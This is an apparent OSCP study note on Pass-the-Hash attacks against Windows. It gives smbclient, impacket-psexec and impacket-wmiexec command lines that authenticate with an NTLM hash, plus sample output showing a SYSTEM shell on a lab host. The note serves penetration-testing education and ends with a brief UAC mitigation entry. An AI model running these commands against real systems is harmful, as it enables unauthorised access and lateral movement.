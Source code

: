 ```yaml
---
aliases:
  - Passing NTLM Hashes
tags:
  - tech
  - cybsec
  - offensive_security
  - offsec
  - oscp
  - password
  - password_hash
  - ntlm
  - hash
  - pass_the_hash
  - pth
author: Mehdi N Tehrani
creat_date: 2024-01-01
category: Cyber Security
subcategory: Offensive Security - OSCP
---
```

# Pass-the-Hash
#pass_the_hash #PtH
We can authenticate to a *local* or *remote* target with a valid combination of *username* and *NTLM hash* rather than a plain-text password. This is possible because NTLM hashes are not salted.
- Requirements:
	- the other target needs to have an *account with the same username and password*
	- The account needs *administrative privileges* on the other target
	- *UAC remote restrictions* needs to be disabled; otherwise it requires password entry at the time of elevation.
#rdp #winrm #smb 
NTLM hashes can be used to login with SMB, RDP and WinRM protocols.

## Tools
### CrackMapExec
[CrackMapExec Github](https://github.com/byt3bl33d3r/CrackMapExec)
#crackmapexec #enumeration
### smbclient 
#enumeration #smbclient
[samba](https://www.samba.org/samba/docs/current/man-html/smbclient.1.html)
```sh
smbclient \\\\<ip>\\dir_name -U <user> --pw-nt-hash <hash>
```
### psexec.py
#psexec_py #psexec #command_execution #impacket #system_account #system_user 
- **Shell as** `SYSTEM` **user**
- Part of [impacket-scripts](https://www.kali.org/tools/impacket-scripts/)
- [Impacket Github](https://github.com/SecureAuthCorp/impacket)
Mechanism: searches for a *writable share* and uploads an executable file to it. Then it registers the executable as a *Windows service* and starts it.
```sh
impacket-psexec -hashes 00000000000000000000000000000000:<NTHash> <user>@<target>

# example
impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212
                        ^ 32 zeros to fill LMHash, as we only use NTHash

[*] Requesting shares on 192.168.245.212.....
[*] Found writable share ADMIN$
[*] Uploading file ZcaaJlFu.exe
[*] Opening SVCManager on 192.168.245.212.....
[*] Creating service KVtk on 192.168.245.212.....
[*] Starting service KVtk.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.707]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

### wmiexec.py
#wmiexec_py #wmiexec #command_execution
- **Shell as the provided user**
```
impacket-wmiexec -hashes 00000000000000000000000000000000:<NTHash> <user>@<target>

# example
impacket-wmiexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
hostname\administrator
```
### mimikatz 
#mimikatz 
can also conduct pass the hash for us

## Mitigation
### UAC
#uac #user_account_control 
[User Account Control](https://docs.microsoft.com/en-us/troubleshoot/windows-server/windows-security/user-account-control-and-remote-restriction) 

7a38310ea6f0027ee955abed1762964b